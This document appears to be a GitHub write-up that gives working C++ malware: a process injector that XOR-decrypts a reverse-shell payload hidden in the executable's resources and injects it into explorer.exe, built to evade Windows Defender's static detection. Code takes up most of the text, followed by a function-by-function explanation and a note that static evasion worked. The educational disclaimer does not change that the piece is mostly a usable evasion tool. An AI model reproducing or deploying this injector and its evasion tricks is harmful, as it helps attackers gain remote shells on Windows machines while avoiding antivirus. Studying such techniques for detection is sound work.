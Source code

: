 
# Bypassing Windows Defender Static Detection

## Introduction

In this article, I’ll walk you through how I bypassed the **static detection** of Windows Defender. Currently, I haven’t managed to evade dynamic detection, but I aim to achieve full evasion in the coming months.

To accomplish this, I leaned heavily on the excellent **Malware Development Essentials** course from [Sektor7](https://institute.sektor7.net/). It’s an incredibly informative course on low-level malware development. What follows is essentially the final project I completed as part of this training.

---

## Overview

### Objective

Inject a reverse shell payload into `explorer.exe` while avoiding static detection by Windows Defender.

### Key Evasion Techniques

- Store the payload in the `.rsrc` section of the PE file.
- Encrypt the payload using XOR.
- Obfuscate API calls using `GetProcAddress` and `GetModuleHandle`.
- Encrypt suspicious strings using XOR.

---

![image](https://github.com/user-attachments/assets/77a0f8f8-3a16-45b5-99f6-53806998c853)

## Code Breakdown

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

// Function pointers for API calls
LPVOID (WINAPI * allocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
BOOL (WINAPI * writeMem)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
HANDLE (WINAPI * createThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);

char key[] = "mysecretkeee";
char key2[] = "s12";

// XOR encryption/decryption
void XOR(char * data, size_t len, char * key, size_t key_len) {
    int j = 0;
    for (int i = 0; i < len; i++) {
        if (j == key_len - 1) j = 0;
        data[i] ^= key[j++];
    }
}

// Find process ID of target
int FindTarget(const char *procname) {
    PROCESSENTRY32 pe32;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);
    if (!Process32First(snapshot, &pe32)) {
        CloseHandle(snapshot);
        return 0;
    }

    while (Process32Next(snapshot, &pe32)) {
        if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
            CloseHandle(snapshot);
            return pe32.th32ProcessID;
        }
    }

    CloseHandle(snapshot);
    return 0;
}

// Inject payload into process
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
    unsigned char s_allocEx[] = { /* obfuscated bytes */ };
    unsigned char s_writeMem[] = { /* obfuscated bytes */ };
    unsigned char s_createThread[] = { /* obfuscated bytes */ };

    XOR((char *) s_allocEx, sizeof(s_allocEx), key2, sizeof(key2));
    XOR((char *) s_writeMem, sizeof(s_writeMem), key2, sizeof(key2));
    XOR((char *) s_createThread, sizeof(s_createThread), key2, sizeof(key2));

    allocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), s_allocEx);
    writeMem = GetProcAddress(GetModuleHandle("kernel32.dll"), s_writeMem);
    createThread = GetProcAddress(GetModuleHandle("kernel32.dll"), s_createThread);

    LPVOID remote = allocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    writeMem(hProc, remote, payload, payload_len, NULL);

    HANDLE hThread = createThread(hProc, NULL, 0, remote, NULL, 0, NULL);
    if (hThread) {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

// Main execution
int main(void) {
    void * exec_mem;
    HANDLE hProc;
    DWORD oldprotect;
    unsigned char * payload;
    unsigned int payload_len;

    HRSRC res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    HGLOBAL resHandle = LoadResource(NULL, res);
    payload = (char *) LockResource(resHandle);
    payload_len = SizeofResource(NULL, res);

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec_mem, payload, payload_len);
    XOR((char *) exec_mem, payload_len, key, sizeof(key));

    printf("Ready to inject. Press Enter to continue...
");
    getchar();

    int pid = FindTarget("explorer.exe");
    if (pid) {
        hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (hProc) {
            Inject(hProc, exec_mem, payload_len);
            CloseHandle(hProc);
        }
    }

    return 0;
}
```

---

## Payload

The reverse shell payload is not included directly in the source. Instead, it's stored in the `.rsrc` section of the PE file. Learn more about this technique in this writeup:

> [Storing Payload in PE File (Medium article)](https://medium.com)

## Function Breakdown

The malware is composed of four primary functions:

### 1. `XOR`
This function performs a simple XOR encryption/decryption on a data buffer using a provided key. While often referred to as encoding, the use of a key classifies this operation as encryption. The function iterates through the data, applying the XOR operation with the repeating key to obfuscate or reveal the payload.

### 2. `FindTarget`
This function takes the name of a process as input and returns its Process ID (PID). It leverages `CreateToolhelp32Snapshot` to list all running processes, and uses `Process32First` and `Process32Next` to iterate through them. If the specified process name matches, it extracts and returns the corresponding PID.

### 3. `Inject`
This function handles shellcode injection into a target process. It performs three key steps:
- **Memory Allocation**: Allocates memory in the remote process using `VirtualAllocEx`.
- **Payload Writing**: Writes the shellcode into the allocated memory with `WriteProcessMemory`.
- **Execution**: Executes the shellcode using `CreateRemoteThread`.

### 4. `main`
The `main` function serves as the entry point. It:
- Extracts an encrypted shellcode payload from the `.rsrc` section (`favicon.ico`).
- Allocates local memory with `VirtualAlloc`.
- Copies and decrypts the payload using the `XOR` function.
- Finds the PID of `explorer.exe` using `FindTarget`.
- Injects the decrypted payload into `explorer.exe` using `Inject`.

The approach ensures the shellcode is hidden from static analysis via resource embedding and encryption, and uses remote thread creation for execution within a trusted process context.


---

## Result

After compiling the binary and scanning it with Windows Defender, it triggers detection when executed — **not** on static scan. This demonstrates that static evasion is working as intended. The reverse shell is launched only when `explorer.exe` is active and undisturbed.

---

## POC

![image](https://github.com/user-attachments/assets/897a9e0e-2789-4b7d-bce3-d101baded034)

## Conclusion

This project is a practical example of basic static detection evasion for educational purposes. I hope it helps anyone learning about red teaming and malware development.

More to come — including full evasion from Windows Defender.

— **Malforge Group**

---

> **Disclaimer:** This is for educational and ethical hacking purposes only. Never use this knowledge for illegal activities.
